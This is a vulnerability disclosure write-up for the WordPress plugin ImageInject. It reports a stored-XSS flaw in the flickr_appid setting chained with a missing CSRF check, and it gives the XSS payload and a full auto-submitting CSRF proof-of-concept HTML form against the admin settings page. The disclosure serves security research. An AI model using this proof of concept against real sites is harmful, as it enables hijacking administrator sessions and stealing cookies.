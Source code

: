 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug here.

#### ADLab of Venustech

The report link to the wordpress-form is missing, because the manager do not wish to put the public in danger ,I'll just write some details here.

#### Stored-XSS

When the admin user click the "Save All Settings" button in the ImageInject setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/button.png)

But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
flickr_appid=test'"><svg/onload=console.log(/xss_at_image_inject_appid/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ImageInject/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=wpdf-options" method="POST">
      <input type="hidden" name="flickr&#95;enabled" value="1" />
      <input type="hidden" name="flickr&#95;appid" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss&#95;at&#95;image&#95;inject&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="flickr&#95;license" value="test" />
      <input type="hidden" name="flickr&#95;sort" value="relevance" />
      <input type="hidden" name="pixabay&#95;enabled" value="1" />
      <input type="hidden" name="pixabay&#95;image&#95;type" value="all" />
      <input type="hidden" name="general&#95;save&#95;images" value="1" />
      <input type="hidden" name="general&#95;feat&#95;img&#95;size" value="medium" />
      <input type="hidden" name="general&#95;default&#95;align" value="none" />
      <input type="hidden" name="general&#95;attr&#95;location" value="caption" />
      <input type="hidden" name="general&#95;items&#95;per&#95;req" value="40" />
      <input type="hidden" name="advanced&#95;img&#95;template" value="&lt;img&#32;title&#61;&quot;&#123;title&#125;&#32;by&#32;&#123;author&#125;&quot;&#32;alt&#61;&quot;&#123;keyword&#125;&#32;photo&quot;&#32;src&#61;&quot;&#123;srs&#125;&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template" value="&lt;small&gt;Photo&#32;by&#32;&lt;a&#32;href&#61;&quot;&#123;link&#125;&quot;&#32;target&#61;&quot;&#95;blank&quot;&gt;&#123;author&#125;&lt;&#47;a&gt;&#32;&#123;cc&#95;icon&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;attr&#95;template&#95;multi" value="&lt;small&gt;Photos&#32;by&#32;&#123;linklist&#125;&lt;&#47;small&gt;" />
      <input type="hidden" name="advanced&#95;filename&#95;template" value="&#123;filename&#125;&#95;&#123;keyword&#125;" />
      <input type="hidden" name="save&#95;options" value="Save&#32;All&#32;Settings" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin ImageInject.
